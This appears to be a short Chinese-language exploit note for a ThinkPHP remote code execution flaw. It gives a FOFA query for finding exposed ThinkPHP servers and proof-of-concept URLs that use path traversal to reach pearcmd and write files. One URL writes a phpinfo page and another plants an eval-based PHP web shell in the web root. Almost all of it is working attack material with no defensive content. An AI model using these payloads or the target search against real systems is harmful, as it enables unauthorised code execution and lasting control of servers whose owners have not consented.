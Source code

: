 # ThinkPHP RCE
## 资产收集
fofa：`header="thinkphp"`
## POC
```
http://172.17.0.2/public/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=phpinfo()?>+/tmp/hello.php
webshell：
?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_REQUEST['ant']);?>+/var/www/html/ant.php
```